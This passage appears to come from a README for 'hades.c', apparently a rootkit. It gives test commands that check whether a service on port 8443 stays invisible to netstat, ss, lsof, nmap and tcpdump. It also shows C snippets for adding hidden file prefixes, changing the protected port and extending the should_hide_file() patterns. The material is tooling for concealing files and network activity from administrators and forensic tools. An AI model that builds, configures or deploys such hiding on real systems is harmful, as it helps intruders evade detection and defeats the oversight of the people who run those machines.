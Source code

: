 ### Network Hiding Tests  
```bash
# Start service on protected port
sudo nc -l 8443 &
sudo python3 -m http.server 8443 &

# Test network enumeration (should NOT show port 8443)
netstat -tulpn | grep 8443
ss -tulpn | grep 8443
lsof -i :8443
nmap -p 8443 localhost

# Test packet capture (should not see traffic)
sudo tcpdump -i any port 8443
```

### Advanced Testing
```bash
# Test with various tools
find / -name "*classified*" 2>/dev/null
locate -i forensic
grep -r "internal" /tmp/ 2>/dev/null

# Network reconnaissance simulation
nmap -sS -O -p 1-65535 localhost
masscan -p1-65535 127.0.0.1 --rate 1000
```

## Configuration & Customization

### Modifying Protected Prefixes
Edit the `file_prefixes` array in `hades.c`:
```c
static char *file_prefixes[MAX_PREFIXES] = {
    "source-code",
    "data", 
    "classified",
    "your-custom-prefix",    // Add custom prefixes
    "project-secret",        // Multiple prefixes supported
    NULL                     // Keep sentinel value
};
```

### Changing Protected Port
Modify the port definition:
```c
#define PROTECTED_PORT 9999  // Change to your desired port
```

### Adding File Patterns
Extend the `should_hide_file()` function:
```c
// Add custom patterns
if (strstr(name, ".confidential") || 
    strstr(name, "_hidden") ||
    strstr(name, "your-pattern")) {
    return 1;
}
```
